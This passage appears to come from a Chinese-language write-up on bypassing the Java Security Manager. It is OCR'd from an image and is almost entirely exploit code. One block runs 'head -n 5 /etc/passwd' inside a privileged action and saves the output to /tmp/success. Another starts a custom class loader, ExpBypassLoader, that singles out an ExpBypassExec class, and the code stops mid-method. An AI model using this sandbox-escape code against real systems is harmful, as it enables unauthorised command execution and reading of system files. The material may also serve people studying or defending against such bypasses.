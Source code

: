 ```plain
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                try {
                    String command = "head -n 5 /etc/passwd";
                    ProcessBuilder builder = new ProcessBuilder(command.split("\\s+"));
                    Process process = builder.start();
                    BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                    String line = reader.readLine();
                    String res = "";
                    while (line != null) {
                        res = res + line + "\n";
                        line = reader.readLine();
                    }
                    reader.close();
                    System.out.println(res);
                    new File("/tmp/success").createNewFile();
                    FileOutputStream stream = new FileOutputStream("/tmp/success");
                    stream.write(res.getBytes());
                    return null;
                } catch (Exception e) {
                    e.printStackTrace();
                    return null;
                }
            }
        });
    }
}
```

自定义 ClassLoader

```plain
package zk_backup_0.configs.conf1;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.net.URL;
import java.nio.ByteBuffer;
import java.nio.channels.Channels;
import java.nio.channels.FileChannel;
import java.nio.channels.WritableByteChannel;
import java.security.*;
import java.security.cert.Certificate;
import java.util.Arrays;

public class ExpBypassLoader extends ClassLoader {
    public ExpBypassLoader() {}

    public ExpBypassLoader(ClassLoader loader) {
        super(loader);
    }

    @Override
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        if (name.contains("ExpBypassExec")) {
            return findClass(name);
        }
        return super.loadClass(name);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
```
